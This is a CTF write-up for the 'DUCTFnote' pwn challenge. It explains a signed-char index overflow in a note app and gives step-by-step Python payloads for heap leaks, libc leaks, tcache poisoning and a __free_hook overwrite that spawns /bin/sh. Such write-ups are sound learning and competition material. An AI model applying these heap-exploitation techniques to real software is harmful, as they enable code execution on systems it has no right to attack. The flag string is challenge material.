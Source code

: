 # DUCTFnote

## Description

![description](images/description.png)

Files: [ductfnote](files/ductfnote) [ductfnote.c](files/ductfnote.c) [libc-2.31.so](file/libc-2.31.so)

## Overview
We are provided with a note application, we can store and delete notes, but just one at a time.<br>
```
1. Create Note
2. Show Note
3. Edit Note
4. Delete Note
>>
```
The authors gave us the source code, so the reversing part is pretty stright forward.

The notes are stored as simple structs with the note's size and a buffer:
```c
typedef struct datanote {
	unsigned int size;
	char data;  // this will behave as char[allocated_size - 4]
} datanote_t;
```

The first strange thing we notice is that the max size of the notes' buffer is stored as a struct of a single element on the heap. That's really unnecessary and we already know that this will probably be a vulnerability.
```c
param_t*  params = (param_t*)malloc(sizeof(param_t));
params->maxsize = 0x7f;
```
Than it loops forever in the main cycle, where it handles the notes.

The ```create_note``` function takes the size of the note as a parameter, checks if it is smaller or equal than ```params->maxsize```, allocates a chunk of size: ```(size | 0x80) + 8``` (this will be really annoing later) and set ```note->size``` to the input size.

The ```show_note``` just checks if the note is not ```NULL``` and print it with a fwrite.

The ```edit_note``` checks if the note exists and read one character at a time in a loop until we enter a ```\n``` or the buffer is full, using a signed char as an index (ehmmm, a signed char?).

And the ```free``` is not even a separate function, it just free ```note``` and set it to ```NULL```.

## Vulnerabilities
In first place the max size we can give to a note is 127. This is also the max value of a signed char and the size check is done as ```idx <= note->size```. So if we set the size to 127, we will never exceed the size of the note since we have an integer overflow and the number after 127 is -128. Hence, we can write both on the previous chunk and on the metadata of the note chunk, as well as the ```size``` parameters of the note struct.<br>
The other vulnerability stands in the ```params``` struct, since we can write before a chunk, we can completely overwrite this struct and set the max size to an arbitrary number, so we are not bounded anymore with this and we can allocate an arbitrary size.<br>
With the same idea we can overwrite the last bins' pointers in the tcache, but since the counter of those bins is set to zero, I couldn't get enything out of this vulnerability.

## Exploitation
Even if we are able to do almost anything with sizes and chunks, the exploitation process is pretty intrigued, since we can handle just one note at a time and we can write at a maximum distance of 128 from the note buffer in both direction.

First thing, need to we modify the max size to ```UINT_MAX```, to obtain arbitrary size allocation. At the same time we can leak the heap address.

We allocate a note with size 127 and free it so we can come back later, because of tcache (the libc is 2.31) it will not be consolidated with top chunk. Then, we allocate and free a smaller chunk, that will be our heap leak and we go back to the first chunk.
```python
create (127)    # vulnerable chunk
delete ()
create (10)     # leak chunk
delete ()
create (127)    # back to the first chunk
```

We set ```params->maxsize``` to ```UINT_MAX``` and ```note->size``` to a big number, so we can read the next free chunk's pointers.
```python
payload  = b"A" * 212
payload += p64 (0x21)		# params chunk size
payload += p64 (0xffffffff)	# params maxsize
payload += b"A" * 16
payload += p64 (0x111)		# note chunk size
payload += p64 (0x1000)		# note size
edit (payload)
```
And the memory will look like this:<br>
![first memory overview](images/first_memory_overview.jpg)<br>
Read the note and, since it uses a fwrite that doesn't stop to ```\x00```, we have the heap offset.

Now we need arbitrary allocation and a libc leak, this is the part that took me the most time.<br>
I first tried to make the smallest possible chunk and corrupt it's pointers with the next chunk, but because the allocation size is ```(size | 0x80) + 8``` it's impossible to reach them. I also tried to overflow the size: creating a note with size -2 it will allocate a chunk of size 0x20, but afterward we cannot write into it, because ```note->size``` is still -2.<br>
For the libc leak, we should allocate a chunk with size greater than 0x410 to be freed in the unsorted bins, but we can free it only if it is the last one, so it will be consolidated with the top chunk and it won't leak the main arena's pointers. I thought about freeing fake chunks to consume the tcache, but both fastbins and unsorted bins has checks that doesn't allow me to do so.

In order to get the leak we have to create a big chunk made of smaller chunks, separate it from the top chunk, change the chunk size of the first small one to the sum of all the chunks and now we have a huge chunk that will be in the unsorted bins and that is separated from the top chunk.<br>
We also free the second inner chunk, because later we will need to go back to it.<br>
```python
create (0x380)  # this will be the base of the huge chunk
delete ()       # we have to free it so we can came back to it

create (0x390)  # this is the second inner chunk
delete ()		# we also free it to use it later

create (0x400)	# this is just to have a lot of space

create (0x100)  # we separate everything from the top chunk

create (0x380)  # and now back to the base of the huge chunk

# modify the size of the base chunk to be the sum of all the chunks
payload  = b"A" * 244
payload += p64 (0xbc1)	# note chunk size
edit (payload)

delete ()
# free it and it will deallocate all the space occupied by the inner chunks
```
I known this is confusing so here's an image that can hopefully explain this better.<br>
![huge chunk memory](images/huge_chunk_memory.jpg)<br>
At this point every next chunk that is not in the tcache bins (remeber the 0x390 chunk) will be allocated consuming the huge chunk (if it fits in it).<br>
And also, now we have the pointers to the main arena and we can leak the libc address.

We allocate a chunk that will start consuming the huge chunk, then, with the same trick used to leak the heap, we leak the libc.
```python
create (127)

payload  = b"A" * 244
payload += p64 (0x111)		# note chunk size
payload += p64 (0x1000)		# note size
edit (payload)
```
We print it and get the libc address.

There is just one obstacle between us and arbitrary allocation: the tcache counter. To get it, we need to set it to two (by freeing two chunks of the same size) and corrupt the pointers of the second one. Since we can handle just one note at a time, we cannot normally free two chunks of the same size, but luckly we have a nice setup to achieve it with some tricks.

We have to use the second inner chunk that we freed before. We create a chunk of size 0x290 (this is the size of our target bin) and free it, this will move the base of the huge chunk just under our checkpoint chunk and create the first freed chunk. We allocate a slightly bigger chunk (0x2a0) and modify its size to be the size of the other chunk, always with the signed char overflow trick. So, we have the second freed chunk, that can also be overwritten by the checkpoint chunk.
```python
create (0x290)  # first chunk
delete ()

create (0x2a0)  # second chunk

payload  = b"A" * 212
payload += p64 (0x3a1)			# this is the 0x390 chunk
payload += b"A" * 8				# we don't care about the forward pointer
payload += p64 (heap + 0x10)	# restore the backward pointer of the 0x390 chunk
payload += b"A" * 8
payload += p64 (0x2a1)			# chunk size (this is also the real size of the 0x290 chunk)
edit (payload)

delete ()
# now we have two chunks of size 0x2a0 deallocated and we can corrupt the pointers of the last one

create (0x390)  # checkpoint chunk, this will overwrite the second chunk
```
Now the memory will look like this:<br>
![second memory overview](images/second_memory_overview.jpg)

Perfect, we modify the forward pointer of the second freed chunk, allocate two chunks of the same size and the second one will be allocated where we want. I used the free hook, since it can be triggered by deleting a note and it will pass the note pointer as the first argument (and that's the only thing we need, to call ```system ("/bin/sh")```).

```python
payload  = b"A" * 28
payload += p64 (libc.symbols["__free_hook"] - 0x20)	# this is the target chunk forward pointer
edit (payload)

# the first allocation consume the first tcache bin
create (0x290)

# this will be allocated on the free hook
create (0x290)
```

Now we have a chunk just before the free hook, and we can write on it.<br>
We have to overflow the signed char once again, because the note struct's first parameter is the size and it has zeros in it, so we cannot just set the buffer to ```;/bin/sh```, because the string will stop before it.
```python
payload  = b"A" * 28
payload += p64 (libc.symbols["system"]) # this will be on the free hook
payload += b"A" * 216
payload += b"/bin/sh\x00"   # this will be at the beginning of the note struct, so the free will be called with the address pointing to it
edit (payload)
```
Free this chunk and here's the shell<br>
![the shell](images/the_shell.png)

## Flag
DUCTF{n0w_you_4r3_r34dy_f0r_r34l_m$_0d4y}
